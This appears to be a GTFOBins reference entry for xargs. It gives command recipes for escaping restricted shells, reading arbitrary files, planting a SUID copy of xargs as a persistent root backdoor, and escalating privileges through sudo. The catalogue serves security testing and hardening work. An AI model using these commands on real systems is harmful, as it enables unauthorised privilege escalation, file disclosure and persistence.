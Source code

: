 # GTFOBin: xargs

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

GNU version only.

```
xargs -a /dev/null sh
```

```
echo x | xargs -Iy sh -c 'exec sh 0<&1'
```

Read interactively from `stdin`.

```
xargs -Ix sh -c 'exec sh 0<&1'
x^D^D
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

This works as long as the file does not contain the NUL character, also a trailing `$'\n'` is added. The actual `/bin/echo` command is executed. GNU version only.

```
LFILE=file_to_read
xargs -a "$LFILE" -0
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

GNU version only.

```
sudo install -m =xs $(which xargs) .

./xargs -a /dev/null sh -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

GNU version only.

```
sudo xargs -a /dev/null sh
```